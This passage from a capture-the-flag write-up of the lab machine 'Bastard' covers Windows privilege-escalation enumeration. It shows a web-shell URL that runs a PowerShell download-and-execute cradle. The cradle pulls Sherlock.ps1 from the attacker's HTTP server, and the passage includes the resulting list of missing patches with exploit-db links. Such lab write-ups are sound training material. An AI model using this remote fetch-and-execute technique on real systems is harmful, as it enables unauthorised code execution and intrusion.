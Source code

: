 [Sherlock](https://github.com/rasta-mouse/Sherlock), PowerShell script to quickly find missing software patches for local privilege escalation vulnerabilities.  
Let’s try finding a vulnerability using sherlock.ps1  

Just like before we need to edit the end of the file this time with Find-AllVulns.  
We can copy and execute sherlock the same way that we did powerup.  

We downloaded our Sherlock.ps1 by accessing the following URL:  
```
http://10.10.10.9/Console.php?cmd=echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.17:8000/Sherlock.ps1') | PowerShell -Noprofile -
```

```zsh
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premium/Bastard]─[root@Arthorias]─[130]─[4182]
╰─[:)] # python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.9 - - [16/Apr/2019 04:27:13] "GET /Sherlock.ps1 HTTP/1.1" 200 -
```

The result is as follows:  

```zsh
Title      : User Mode to Ring (KiTrap0D)
MSBulletin : MS10-015
CVEID      : 2010-0232
Link       : https://www.exploit-db.com/exploits/11199/
VulnStatus : Not supported on 64-bit systems

Title      : Task Scheduler .XML
MSBulletin : MS10-092
CVEID      : 2010-3338, 2010-3888
Link       : https://www.exploit-db.com/exploits/19930/
VulnStatus : Appears Vulnerable

Title      : NTUserMessageCall Win32k Kernel Pool Overflow
MSBulletin : MS13-053
CVEID      : 2013-1300
Link       : https://www.exploit-db.com/exploits/33213/
VulnStatus : Not supported on 64-bit systems

Title      : TrackPopupMenuEx Win32k NULL Page
MSBulletin : MS13-081
CVEID      : 2013-3881
Link       : https://www.exploit-db.com/exploits/31576/
VulnStatus : Not supported on 64-bit systems

Title      : TrackPopupMenu Win32k Null Pointer Dereference
MSBulletin : MS14-058
CVEID      : 2014-4113
Link       : https://www.exploit-db.com/exploits/35101/
VulnStatus : Not Vulnerable

Title      : ClientCopyImage Win32k
MSBulletin : MS15-051
CVEID      : 2015-1701, 2015-2433
Link       : https://www.exploit-db.com/exploits/37367/
VulnStatus : Appears Vulnerable

Title      : Font Driver Buffer Overflow
MSBulletin : MS15-078
CVEID      : 2015-2426, 2015-2433
Link       : https://www.exploit-db.com/exploits/38222/
VulnStatus : Not Vulnerable

Title      : 'mrxdav.sys' WebDAV
MSBulletin : MS16-016
```